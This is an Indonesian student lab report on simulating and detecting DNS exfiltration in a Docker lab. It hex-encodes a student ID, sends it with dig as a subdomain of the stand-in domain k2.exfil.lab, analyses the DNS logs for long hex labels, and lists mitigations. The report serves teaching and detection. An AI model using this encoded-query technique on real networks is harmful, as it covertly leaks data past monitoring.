File konfigurasi Docker Compose yang digunakan berada pada direktori:

```text
b/b4-dns-exfil/docker-compose.yml
```

Sementara itu, script analisis DNS berada pada direktori:

```text
kasus/k9-dns-detect/analisis_dns.py
```

File yang digunakan dalam praktikum ini meliputi:

| No. | Nama File | Fungsi |
|---|---|---|
| 1 | `docker-compose.yml` | Konfigurasi lingkungan DNS Exfiltration |
| 2 | `analisis_dns.py` | Script Python untuk menganalisis log DNS |
| 3 | `dns-k2.log` | File yang berisi catatan aktivitas DNS server |
| 4 | `hasil.md` | Dokumentasi hasil praktikum |
| 5 | `01.png` | Screenshot keseluruhan proses pengujian |

## 2.3 Menjalankan Lingkungan Docker Compose

Langkah pertama adalah menjalankan service DNS dan attacker menggunakan Docker Compose.

Perintah yang digunakan:

```powershell
docker compose -p k2 -f b/b4-dns-exfil/docker-compose.yml up -d
```

Penjelasan parameter:

| Parameter | Fungsi |
|---|---|
| `docker compose` | Menjalankan perintah Docker Compose |
| `-p k2` | Menentukan nama project Docker Compose |
| `-f` | Menentukan file konfigurasi Compose |
| `b/b4-dns-exfil/docker-compose.yml` | Lokasi file konfigurasi |
| `up` | Membuat dan menjalankan service |
| `-d` | Menjalankan container di latar belakang |

Berdasarkan hasil terminal, Docker Compose berhasil menjalankan seluruh service yang dibutuhkan.

Output yang diperoleh:

```text
[+] up 3/3

✔ Network k2_lab       Created
✔ Container k2-dns-1   Started
✔ Container k2-attacker-1 Started
```

Hasil tersebut menunjukkan bahwa:

1. Network Docker `k2_lab` berhasil dibuat.
2. Container `k2-dns-1` berhasil dijalankan.
3. Container `k2-attacker-1` berhasil dijalankan.

Dengan demikian, lingkungan pengujian DNS Exfiltration telah berhasil dipersiapkan.

---

# 3. KONVERSI DATA NIM MENJADI HEXADECIMAL

## 3.1 Tujuan

Sebelum mengirimkan informasi melalui DNS query, data NIM terlebih dahulu diubah menjadi format hexadecimal.

Hexadecimal merupakan sistem bilangan berbasis 16 yang menggunakan angka 0–9 dan huruf A–F.

Format ini dapat digunakan untuk merepresentasikan data dalam bentuk karakter yang sesuai untuk dimasukkan ke dalam label DNS.

Pada praktikum ini, informasi yang digunakan adalah NIM:

```text
24552011147
```

Informasi tersebut kemudian dikonversi menggunakan tools `xxd`.

## 3.2 Perintah Konversi

Perintah yang digunakan:

```powershell
docker run --rm uts-kali-tools sh -c "echo -n 24552011147 | xxd -p"
```

Penjelasan parameter:

| Parameter | Fungsi |
|---|---|
| `docker run` | Menjalankan container Docker sementara |
| `--rm` | Menghapus container setelah proses selesai |
| `uts-kali-tools` | Docker Image yang menyediakan tools pengujian |
| `sh -c` | Menjalankan perintah shell |
| `echo -n` | Menampilkan teks tanpa menambahkan karakter newline |
| `24552011147` | Data NIM yang akan dikonversi |
| `xxd -p` | Mengubah data menjadi representasi hexadecimal |

Penggunaan `echo -n` penting karena mencegah penambahan karakter newline pada akhir data yang akan dikonversi.

Dengan demikian, hasil hexadecimal hanya merepresentasikan karakter NIM yang dimasukkan.

## 3.3 Hasil Konversi

Berdasarkan hasil pengujian, diperoleh:

```text
NIM Asli:
24552011147

Hexadecimal:
3234353532303131313437
```

Hasil konversi tersebut merupakan representasi hexadecimal dari setiap karakter dalam NIM.

Rinciannya adalah:

| Karakter | Kode ASCII Hexadecimal |
|---|---|
| 2 | `32` |
| 4 | `34` |
| 5 | `35` |
| 5 | `35` |
| 2 | `32` |
| 0 | `30` |
| 1 | `31` |
| 1 | `31` |
| 1 | `31` |
| 4 | `34` |
| 7 | `37` |

Apabila seluruh nilai hexadecimal digabungkan, diperoleh:

```text
3234353532303131313437
```

Dengan demikian, data NIM berhasil diubah menjadi format hexadecimal dan siap digunakan sebagai label subdomain pada DNS query.

---

# 4. PENGIRIMAN INFORMASI MELALUI DNS QUERY

## 4.1 Tujuan

Tahap berikutnya adalah mengirimkan informasi hexadecimal melalui DNS query menuju DNS server yang telah dijalankan sebelumnya.

Pada tahap ini, data hexadecimal ditempatkan pada bagian label subdomain dari domain pengujian.

Teknik tersebut digunakan untuk memperlihatkan bagaimana informasi dapat dibawa melalui permintaan DNS.

## 4.2 Struktur DNS Query

Format DNS query yang digunakan adalah:

```text
3234353532303131313437.k2.exfil.lab
```

Struktur domain tersebut dapat dijelaskan sebagai berikut:

| Bagian | Nilai | Fungsi |
|---|---|---|
| Label Data | `3234353532303131313437` | Menyimpan informasi NIM dalam hexadecimal |
| Subdomain | `k2` | Identitas kasus pengujian |
| Domain | `exfil.lab` | Domain pengujian DNS Exfiltration |
| DNS Server | `dns` | Server tujuan permintaan DNS |

Bagian label pertama merupakan informasi yang dikirimkan.

Sementara itu, bagian domain digunakan untuk mengarahkan query menuju domain pengujian yang telah dikonfigurasi pada lingkungan Docker.

## 4.3 Perintah Pengiriman DNS Query

Perintah yang digunakan:

```powershell
docker compose -p k2 -f b/b4-dns-exfil/docker-compose.yml exec attacker dig +short 3234353532303131313437.k2.exfil.lab @dns
```

Penjelasan parameter:

| Parameter | Fungsi |
|---|---|
| `docker compose` | Menjalankan perintah melalui Docker Compose |
| `-p k2` | Menggunakan project Docker Compose `k2` |
| `-f` | Menentukan file konfigurasi |
| `exec attacker` | Menjalankan perintah pada container attacker |
| `dig` | Tools untuk melakukan DNS query |
| `+short` | Menampilkan hasil DNS secara ringkas |
| `3234353532303131313437.k2.exfil.lab` | Nama domain yang membawa data hexadecimal |
| `@dns` | Menentukan DNS server tujuan berdasarkan nama service |

Melalui perintah tersebut, attacker mengirimkan permintaan DNS kepada service `dns`.

Data hexadecimal dimasukkan ke dalam label pertama domain sehingga dapat diamati sebagai bagian dari aktivitas query DNS.

## 4.4 Hasil Pengiriman DNS Query

Berdasarkan perintah yang dijalankan pada terminal, DNS query menggunakan label hexadecimal berikut:

```text
3234353532303131313437.k2.exfil.lab
```

Permintaan tersebut dikirimkan melalui service attacker dengan menggunakan DNS server `dns`.

Perintah `dig +short` digunakan agar hasil respons DNS ditampilkan secara ringkas.

Pada screenshot, tidak terlihat nilai jawaban DNS yang tercetak setelah perintah tersebut. Oleh karena itu, hasil utama yang didokumentasikan pada tahap ini adalah pelaksanaan query dengan label hexadecimal yang telah ditentukan, bukan klaim mengenai alamat IP hasil resolusi.

Hal yang menjadi perhatian utama adalah keberadaan informasi hexadecimal pada bagian nama domain yang dikirimkan melalui DNS query.

---

# 5. PENGAMBILAN DAN ANALISIS LOG DNS

## 5.1 Tujuan

Setelah DNS query dikirimkan, tahap berikutnya adalah mengambil log aktivitas DNS server.

Log DNS merupakan catatan aktivitas yang dapat digunakan untuk mengetahui permintaan DNS yang diterima oleh server.

Melalui log tersebut, administrator dapat melakukan pemeriksaan terhadap pola query yang tidak biasa, termasuk penggunaan label subdomain yang panjang dan berisi karakter hexadecimal.

Pada praktikum ini, log DNS disimpan ke dalam file `dns-k2.log`.

Selanjutnya, file tersebut dianalisis menggunakan script Python yang telah disediakan.

## 5.2 Mengambil Log DNS

Perintah yang digunakan:

```powershell
docker compose -p k2 -f b/b4-dns-exfil/docker-compose.yml logs dns | Set-Content -Path dns-k2.log -Encoding UTF8
```

Penjelasan parameter:

| Parameter | Fungsi |
|---|---|
| `docker compose` | Menjalankan perintah Docker Compose |
| `-p k2` | Menentukan project pengujian |
| `-f` | Menentukan file konfigurasi |
| `logs dns` | Mengambil log dari service DNS |
| `|` | Meneruskan output ke perintah berikutnya |
| `Set-Content` | Menyimpan output ke dalam file |
| `-Path dns-k2.log` | Menentukan nama file log |
| `-Encoding UTF8` | Menyimpan file menggunakan encoding UTF-8 |

Perintah tersebut mengambil catatan aktivitas DNS server dan menyimpannya ke dalam file `dns-k2.log`.

File ini kemudian digunakan sebagai sumber data dalam proses analisis.

## 5.3 Analisis Log Menggunakan Python

Setelah file log berhasil disimpan, tahap selanjutnya adalah menjalankan script analisis DNS.

Perintah yang digunakan:

```powershell
docker run --rm -w /work -v "${PWD}:/work" uts-kali-tools python3 kasus/k9-dns-detect/analisis_dns.py dns-k2.log
```

Penjelasan parameter:

| Parameter | Fungsi |
|---|---|
| `docker run` | Menjalankan container sementara |
| `--rm` | Menghapus container setelah proses selesai |
| `-w /work` | Menentukan direktori kerja dalam container |
| `-v "${PWD}:/work"` | Menghubungkan direktori kerja host ke container |
| `uts-kali-tools` | Docker Image yang digunakan |
| `python3` | Menjalankan interpreter Python |
| `kasus/k9-dns-detect/analisis_dns.py` | Script untuk menganalisis aktivitas DNS |
| `dns-k2.log` | File log yang akan dianalisis |

Script Python digunakan untuk membaca catatan DNS dan mengelompokkan aktivitas query berdasarkan domain induk.

Selain itu, script juga melakukan pemeriksaan terhadap pola query yang mencurigakan, khususnya label domain yang panjang dan berisi karakter hexadecimal.

## 5.4 Hasil Analisis DNS

Berdasarkan screenshot, script analisis berhasil dijalankan dan menampilkan bagian informasi berikut:

```text
Jumlah query per domain induk:

Query mencurigakan (label panjang berisi hex):
```

Output tersebut menunjukkan bahwa script menjalankan dua bagian pemeriksaan utama:

**1. Jumlah Query per Domain Induk**

Bagian ini digunakan untuk mengelompokkan permintaan DNS berdasarkan domain induk yang ditemukan dalam log.

Pengelompokan tersebut dapat membantu administrator mengetahui domain mana yang paling sering menerima permintaan DNS.

**2. Query Mencurigakan (Label Panjang Berisi Hex)**

Bagian ini digunakan untuk memeriksa query DNS yang memiliki karakteristik tertentu, yaitu label subdomain yang panjang dan berisi karakter hexadecimal.

Pola tersebut relevan dengan teknik DNS Exfiltration karena data dapat diubah menjadi hexadecimal sebelum dimasukkan ke dalam nama domain.

Pada screenshot yang tersedia, bagian hasil kedua kategori tersebut ditampilkan tanpa baris data yang terlihat di bawahnya.

Dengan demikian, screenshot membuktikan bahwa script analisis telah dijalankan, tetapi belum memperlihatkan secara eksplisit baris query yang teridentifikasi sebagai mencurigakan.

---

# 6. DEKODE DATA HEXADECIMAL MENJADI TEKS ASLI

## 6.1 Tujuan

Setelah data dikirimkan melalui DNS query dan proses analisis log dilakukan, tahap terakhir adalah mengembalikan data hexadecimal menjadi teks asli.

Proses ini disebut decoding.

Decoding dilakukan untuk membuktikan bahwa informasi yang sebelumnya diubah menjadi hexadecimal masih dapat dikembalikan ke bentuk teks semula.

Pada praktikum ini, data yang digunakan merupakan NIM dengan nilai:

```text
3234353532303131313437
```

## 6.2 Perintah Dekode

Perintah yang digunakan:

```powershell
docker run --rm uts-kali-tools sh -c "echo 3234353532303131313437 | xxd -r -p; echo"
```

Penjelasan parameter:

| Parameter | Fungsi |
|---|---|
| `docker run` | Menjalankan container sementara |
| `--rm` | Menghapus container setelah proses selesai |
| `uts-kali-tools` | Docker Image yang menyediakan tools |
| `sh -c` | Menjalankan perintah shell |
| `echo` | Mengirimkan data hexadecimal ke proses berikutnya |
| `xxd -r -p` | Mengembalikan hexadecimal menjadi data asli |
| `echo` | Menambahkan newline setelah hasil decoding |

Perintah `xxd -r -p` digunakan untuk mengubah representasi hexadecimal kembali menjadi karakter aslinya.

## 6.3 Hasil Decoding

Berdasarkan hasil pengujian, diperoleh output:

```text
24552011147
```

Hasil tersebut sama dengan NIM asli yang digunakan pada awal praktikum.

Perbandingan hasil:

| Keterangan | Nilai |
|---|---|
| Data asli | `24552011147` |
| Data setelah encoding | `3234353532303131313437` |
| Data setelah decoding | `24552011147` |

Dengan demikian, proses encoding dan decoding berhasil dilakukan.

Data yang sebelumnya direpresentasikan dalam bentuk hexadecimal dapat dikembalikan ke bentuk teks aslinya tanpa perubahan karakter.

Hal ini memperlihatkan bahwa informasi yang dimasukkan ke dalam DNS query dapat direpresentasikan dan dipulihkan kembali melalui proses decoding.

---

# 7. ANALISIS DNS EXFILTRATION

## 7.1 Mekanisme Kerja DNS Exfiltration

DNS Exfiltration memanfaatkan protokol DNS sebagai media untuk membawa informasi tertentu melalui permintaan nama domain.

Secara umum, mekanisme tersebut terdiri dari beberapa tahapan.

**1. Menyiapkan Informasi**

Penyerang menentukan informasi yang akan dikirimkan.

Pada praktikum ini, informasi yang digunakan adalah NIM:

```text
24552011147
```

**2. Mengubah Data Menjadi Hexadecimal**

Informasi diubah ke format hexadecimal menggunakan perintah `xxd -p`.

Hasil konversi:

```text
3234353532303131313437
```

**3. Menyisipkan Data ke dalam DNS Query**

Data hexadecimal dimasukkan sebagai label subdomain.

Contoh:

```text
3234353532303131313437.k2.exfil.lab
```

Dengan demikian, informasi dibawa melalui nama domain yang dikirimkan kepada DNS server.

**4. Mengirimkan DNS Query**

Client mengirimkan permintaan menggunakan tools `dig` menuju DNS server yang telah disiapkan.

DNS server menerima permintaan tersebut dan dapat mencatat informasi query pada log aktivitasnya.

**5. Menganalisis Log DNS**

Log yang dihasilkan kemudian diperiksa menggunakan script Python untuk mencari pola permintaan DNS yang mencurigakan.

Salah satu karakteristik yang dapat diperhatikan adalah label subdomain yang panjang dan berisi rangkaian karakter hexadecimal.

**6. Mengembalikan Data ke Bentuk Asli**

Data hexadecimal kemudian diproses menggunakan `xxd -r -p` untuk mengembalikannya menjadi teks asli.

Pada praktikum ini, hasil decoding adalah:

```text
24552011147
```

## 7.2 Ilustrasi Alur DNS Exfiltration

Berikut merupakan ilustrasi sederhana proses pengiriman informasi melalui DNS:

```text
          INFORMASI ASLI
           24552011147
                 |
                 v
        +------------------+
        |  Encoding Hex    |
        |      xxd -p      |
        +------------------+
                 |
                 v
     3234353532303131313437
                 |
                 v
        +------------------+
        | Membentuk DNS    |
        |      Query       |
        +------------------+
                 |
                 v
3234353532303131313437.k2.exfil.lab
                 |
                 v
        +------------------+
        |   DNS Server     |
        |       dns        |
        +------------------+
                 |
                 v
           DNS Log File
           dns-k2.log
                 |
                 v
        +------------------+
        | Analisis Log DNS |
        |  Python Script   |
        +------------------+
                 |
                 v
        +------------------+
        | Hex Decoding     |
        |     xxd -r       |
        +------------------+
                 |
                 v
          24552011147
          DATA ASLI
```

Ilustrasi tersebut menunjukkan bagaimana suatu informasi dapat diubah menjadi hexadecimal, dimasukkan ke dalam DNS query, dicatat oleh DNS server, kemudian dikembalikan menjadi informasi aslinya.

## 7.3 Karakteristik DNS Exfiltration

Beberapa karakteristik yang dapat digunakan untuk mengidentifikasi kemungkinan DNS Exfiltration adalah:

1. Label subdomain yang memiliki panjang tidak biasa.
2. Penggunaan rangkaian karakter hexadecimal atau Base32 dalam nama domain.
3. Banyaknya permintaan DNS dengan pola nama domain yang berubah-ubah.
4. Penggunaan subdomain yang mengandung informasi terstruktur.
5. Frekuensi query yang tidak sesuai dengan aktivitas jaringan normal.

Namun, satu karakteristik saja tidak selalu cukup untuk memastikan terjadinya DNS Exfiltration.

Administrator perlu mempertimbangkan pola lalu lintas, frekuensi query, domain tujuan, serta konteks aktivitas perangkat.

## 7.4 Perbedaan DNS Normal dan DNS Exfiltration

| Aspek | DNS Normal | DNS Exfiltration |
|---|---|---|
| Tujuan | Mencari alamat IP domain | Membawa informasi melalui DNS query |
| Isi Query | Nama domain yang umum | Dapat berisi data yang dikodekan |
| Label Subdomain | Umumnya mudah dibaca | Dapat berisi rangkaian hexadecimal atau Base32 |
| Pola Permintaan | Sesuai aktivitas akses layanan | Dapat memiliki pola tidak biasa |
| Penggunaan | Resolusi nama domain | Komunikasi atau pengiriman data |
| Risiko Keamanan | Aktivitas jaringan normal | Potensi kebocoran informasi |

---

# 8. DAMPAK DAN MITIGASI DNS EXFILTRATION

## 8.1 Dampak DNS Exfiltration

DNS Exfiltration dapat menimbulkan risiko keamanan informasi karena memungkinkan data dikirimkan melalui jalur DNS.

Beberapa dampak yang dapat terjadi antara lain:

**1. Kebocoran Informasi**

Informasi penting yang berada pada suatu sistem dapat dikirimkan ke pihak luar melalui DNS query.

**2. Penyalahgunaan Infrastruktur DNS**

Protokol DNS yang seharusnya digunakan untuk resolusi domain dapat dimanfaatkan sebagai media komunikasi tersembunyi.

**3. Kesulitan Deteksi**

Aktivitas DNS merupakan bagian normal dari komunikasi jaringan sehingga permintaan yang mencurigakan dapat terlihat seperti query biasa apabila tidak dilakukan pemantauan secara khusus.

**4. Pengiriman Data Tanpa Izin**

Informasi internal dapat keluar dari jaringan tanpa melalui mekanisme transfer data yang biasa dipantau oleh administrator.

## 8.2 Mitigasi DNS Exfiltration

Beberapa langkah yang dapat diterapkan untuk mengurangi risiko DNS Exfiltration adalah sebagai berikut.

**1. Pemantauan Log DNS**

Administrator perlu melakukan pemantauan terhadap permintaan DNS yang diterima server.

Aktivitas yang memiliki pola tidak biasa, seperti label subdomain panjang atau karakter hexadecimal berulang, perlu diperiksa lebih lanjut.

**2. Membatasi Akses DNS**

Perangkat dalam jaringan sebaiknya hanya diperbolehkan menggunakan DNS resolver yang telah ditentukan oleh administrator.

Hal tersebut dapat membantu mengurangi penggunaan DNS server eksternal yang tidak terkontrol.

**3. Menerapkan DNS Filtering**

DNS filtering dapat digunakan untuk memblokir domain atau permintaan DNS yang terindikasi berbahaya berdasarkan kebijakan keamanan.

**4. Menerapkan Deteksi Anomali**

Administrator dapat menggunakan sistem monitoring untuk mendeteksi pola query yang tidak normal, seperti:

- Panjang label subdomain yang tidak biasa.
- Frekuensi query yang meningkat secara tidak wajar.
- Penggunaan karakter hexadecimal secara berulang.
- Banyaknya subdomain unik dalam waktu singkat.

**5. Menerapkan Kebijakan Keamanan Endpoint**

Perangkat pengguna perlu dilindungi dengan kebijakan keamanan yang membatasi program atau proses yang dapat melakukan komunikasi jaringan tanpa izin.

**6. Melakukan Pembatasan dan Audit DNS**

Administrator dapat melakukan audit berkala terhadap penggunaan DNS serta menerapkan pembatasan query sesuai kebutuhan jaringan.

---

# 9. REKAPITULASI DAN ANALISIS HASIL PRAKTIKUM

## 9.1 Rekapitulasi Tahapan Pengujian

Berdasarkan seluruh proses yang dilakukan, diperoleh rangkuman sebagai berikut:

| No. | Tahapan | Hasil |
|---|---|---|
| 1 | Menjalankan Docker Compose | Berhasil |
| 2 | Membuat network `k2_lab` | Berhasil |
| 3 | Menjalankan container DNS | Berhasil |
| 4 | Menjalankan container attacker | Berhasil |
| 5 | Konversi NIM menjadi hexadecimal | Berhasil |
| 6 | Pengiriman DNS query menggunakan dig | Perintah berhasil dijalankan |
| 7 | Pengambilan log DNS | Berhasil dijalankan |
| 8 | Analisis log menggunakan Python | Script berhasil dijalankan |
| 9 | Decoding hexadecimal | Berhasil |
| 10 | Pembersihan lingkungan Docker | Berhasil |

## 9.2 Rekapitulasi Data

Berikut merupakan data utama yang digunakan dalam praktikum:

| Parameter | Nilai |
|---|---|
| NIM asli | `24552011147` |
| Hexadecimal | `3234353532303131313437` |
| Domain pengujian | `k2.exfil.lab` |
| DNS query | `3234353532303131313437.k2.exfil.lab` |
| DNS server | `dns` |
| File log | `dns-k2.log` |
| Script analisis | `analisis_dns.py` |
| Hasil decoding | `24552011147` |

## 9.3 Analisis Keseluruhan

Berdasarkan seluruh tahapan praktikum, dapat diketahui bahwa proses simulasi DNS Exfiltration berhasil dilakukan melalui lingkungan Docker.

Tahap pertama dimulai dengan menjalankan DNS server dan attacker menggunakan Docker Compose.

Setelah lingkungan pengujian aktif, NIM dikonversi menjadi hexadecimal menggunakan perintah `xxd -p`.

Hasil konversi berupa `3234353532303131313437` kemudian digunakan sebagai label subdomain dalam DNS query menuju domain `k2.exfil.lab`.

Permintaan DNS dikirimkan menggunakan tools `dig` melalui service attacker dengan tujuan DNS server `dns`.

Selanjutnya, log DNS diambil dan disimpan ke dalam file `dns-k2.log` untuk digunakan dalam proses analisis menggunakan script Python.

Script tersebut menjalankan pemeriksaan terhadap jumlah query per domain induk serta pola query mencurigakan yang memiliki label panjang berisi hexadecimal.

Tahap terakhir dilakukan dengan mengembalikan data hexadecimal menggunakan perintah `xxd -r -p`.

Hasil decoding menghasilkan kembali NIM `24552011147`, sesuai dengan data asli yang digunakan pada awal pengujian.

Dengan demikian, praktikum ini memperlihatkan bagaimana informasi dapat direpresentasikan dalam bentuk hexadecimal dan dibawa melalui DNS query.

Hasil ini juga menunjukkan pentingnya pemantauan aktivitas DNS karena permintaan DNS yang terlihat normal secara struktur dapat dimanfaatkan untuk membawa informasi tertentu.

---

# 10. KESIMPULAN

Berdasarkan pelaksanaan Tugas 7 (Pertemuan 7) mengenai DNS Exfiltration pada Kasus 2 (`k2`), dapat disimpulkan bahwa praktikum berhasil memberikan pemahaman mengenai pemanfaatan protokol DNS sebagai media pengiriman informasi.

Pada tahap awal, lingkungan pengujian berhasil dijalankan menggunakan Docker Compose dengan dua service utama, yaitu DNS server dan attacker.

Informasi berupa NIM `24552011147` kemudian dikonversi menjadi format hexadecimal menggunakan tools `xxd`.

Hasil konversi tersebut adalah `3234353532303131313437`, yang selanjutnya digunakan sebagai label subdomain pada DNS query:

`3234353532303131313437.k2.exfil.lab`

Permintaan tersebut dikirimkan menggunakan tools `dig` menuju DNS server `dns`.

Setelah proses pengiriman, aktivitas DNS diambil melalui log server dan disimpan ke dalam file `dns-k2.log`.

File tersebut kemudian dianalisis menggunakan script Python untuk memeriksa jumlah query berdasarkan domain induk serta mengidentifikasi pola label domain yang panjang dan berisi hexadecimal.

Pada tahap akhir, data hexadecimal dikembalikan menggunakan perintah `xxd -r -p` dan menghasilkan kembali NIM `24552011147`.

Hasil tersebut menunjukkan bahwa proses encoding dan decoding berjalan sesuai dengan data yang digunakan.

Selain itu, praktikum ini memberikan pemahaman bahwa protokol DNS tidak hanya digunakan untuk menerjemahkan nama domain menjadi alamat IP, tetapi juga dapat disalahgunakan sebagai media pengiriman informasi.

Oleh karena itu, administrator jaringan perlu menerapkan pemantauan log DNS, DNS filtering, pembatasan akses DNS, serta deteksi anomali untuk mengurangi risiko kebocoran informasi melalui DNS.

Secara keseluruhan, praktikum ini memberikan pemahaman mengenai mekanisme DNS Exfiltration, penggunaan hexadecimal dalam DNS query, analisis log menggunakan Python, serta pentingnya pengamanan infrastruktur DNS dalam menjaga kerahasiaan informasi.

---

# 11. PEMBERSIHAN LINGKUNGAN PRAKTIKUM

## 11.1 Tujuan

Setelah seluruh tahapan pengujian selesai dilakukan, lingkungan Docker Compose dibersihkan agar container dan jaringan virtual yang digunakan tidak terus berjalan.

Pembersihan dilakukan untuk menghindari penggunaan resource sistem yang tidak diperlukan setelah praktikum selesai.

## 11.2 Perintah Pembersihan

Perintah yang digunakan:

```powershell
docker compose -p k2 -f b/b4-dns-exfil/docker-compose.yml down -v
```

Penjelasan parameter:

- `docker compose`: menjalankan perintah Docker Compose.
- `-p k2`: menentukan project Docker Compose yang akan dibersihkan.
- `-f`: menentukan file konfigurasi Compose.
- `down`: menghentikan dan menghapus container serta jaringan project.
- `-v`: menghapus volume yang terkait dengan project.

## 11.3 Hasil Pembersihan

Berdasarkan output terminal, diperoleh hasil:

```text
[+] down 3/3

✔ Container k2-attacker-1 Removed
✔ Container k2-dns-1       Removed
✔ Network k2_lab           Removed
```

Hasil tersebut menunjukkan bahwa:

1. Container attacker berhasil dihapus.
2. Container DNS server berhasil dihapus.
3. Network `k2_lab` berhasil dihapus.

Dengan demikian, seluruh lingkungan pengujian Docker Compose berhasil dibersihkan setelah praktikum selesai dilakukan.

---

# 12. LAMPIRAN DAN DOKUMENTASI

## 12.1 Daftar File Praktikum

| No. | Nama File | Keterangan |
|---|---|---|
| 1 | `docker-compose.yml` | Konfigurasi lingkungan DNS Exfiltration |
| 2 | `analisis_dns.py` | Script analisis aktivitas DNS |
| 3 | `dns-k2.log` | File catatan aktivitas DNS server |
| 4 | `hasil.md` | Dokumentasi hasil praktikum |
| 5 | `01.png` | Screenshot keseluruhan proses pengujian |

## 12.2 Dokumentasi Screenshot



**Gambar 1.** Dokumentasi keseluruhan proses praktikum DNS Exfiltration menggunakan Docker Compose. Screenshot memperlihatkan proses pembuatan network dan menjalankan container DNS serta attacker, konversi NIM menjadi hexadecimal, pengiriman DNS query menggunakan dig, pengambilan dan analisis log DNS menggunakan Python, proses decoding hexadecimal menjadi NIM asli, serta pembersihan lingkungan Docker Compose.
